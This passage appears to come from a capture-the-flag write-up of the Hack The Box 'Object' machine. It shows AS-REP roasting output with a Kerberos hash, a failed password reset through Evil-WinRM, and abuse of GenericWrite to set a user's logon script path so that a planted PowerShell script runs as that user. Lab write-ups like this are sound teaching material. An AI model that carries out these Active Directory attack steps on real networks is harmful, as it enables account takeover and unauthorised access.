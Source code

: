 ```
[*] SamAccountName         : maria
[*] DistinguishedName      : CN=maria garcia,CN=Users,DC=object,DC=local
[*] Using domain controller: jenkins.object.local (fe80::f1a6:25de:331e:4888%12)
[*] Building AS-REQ (w/o preauth) for: 'object.local\maria'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$maria@object.local:3538EF0A5A4003CE5CF5068A3917B4CE$1792D7CE0AE763F4D9AD140118EAFFB3719DAF9B30A412CF15C94B99958A95C201FCA3CBB4B1AB97EFD9E5A0452342EA5C8CEF0B3FA17A58629601A116CDE1F7D6711D4100576F8AEBE2BB9643641FDB2245D2413114D1BAF8C46FF5A8B406875789174CDAAA1C1CFA23C2952AF9A1DA7DCE0E4FBD71B5AE2C096876480B5BD7093E6F8C745B1C8DF688B43F4DA4316C7FE8392D7567EC2E87139E85380D26800D4F3FF95FF50D056E164FCF8085AEB10F8372BE4FDD79F8DE8D54E5B814F26288548D1A89EC27866C48FBE7AF0D874CEF1BE785CF047BE5399BFE066EF52EABB64D0396D00A49544CE70B0A
```

Unfortunately I was unable to crack this hash.

I am also unable to simply update maria's password as we did for smith:

```
*Evil-WinRM* PS C:\temp> $newpass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
*Evil-WinRM* PS C:\temp> Set-DomainUserPassword -Identity maria -AccountPassword $newpass -verbose
Verbose: [Set-DomainUserPassword] Attempting to set the password for user 'maria'
Warning: [Set-DomainUserPassword] Error setting password for user 'maria' : Exception calling "SetPassword" with "1" argument(s): "Access is denied. (Exception from HRESULT: 0x80070005 (E_ACCESSDENIED))
```

Full disclosure I got stuck here forever, and ultimately resorted to looking at an 0xdf writeup for the next step. https://0xdf.gitlab.io/2022/02/28/htb-object.html#shell-as-maria

The writeup mentions the HackTricks page: https://book.hacktricks.xyz/windows/active-directory-methodology/acl-persistence-abuse#genericwrite-on-user which states with GenericWrite privilege we can write scripts that may be executed when a user logs on. I saw this as well but never would have thought to try it on a CTF. But apparently whatever script we do write will be executed repeatedly as if maria was logging in. Really interesting. 

Because we are unable to access maria's directories, we can write a script that allows us to see their contents.

```
*Evil-WinRM* PS C:\ProgramData> echo "ls \users\maria\ > \programdata\out" > cmd.ps1
*Evil-WinRM* PS C:\ProgramData> Set-DomainObject -Identity maria -SET @{scriptpath="C:\\programdata\\cmd.ps1"}

*Evil-WinRM* PS C:\ProgramData> cat out


    Directory: C:\users\maria


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---       10/22/2021   3:54 AM                3D Objects
d-r---       10/22/2021   3:54 AM                Contacts
d-r---       10/25/2021   3:47 AM                Desktop
d-r---       10/25/2021  10:07 PM                Documents
d-r---       10/22/2021   3:54 AM                Downloads
d-r---       10/22/2021   3:54 AM                Favorites
d-r---       10/22/2021   3:54 AM                Links
d-r---       10/22/2021   3:54 AM                Music
d-r---       10/22/2021   3:54 AM                Pictures
d-r---       10/22/2021   3:54 AM                Saved Games
d-r---       10/22/2021   3:54 AM                Searches
d-r---       10/22/2021   3:54 AM                Videos
```
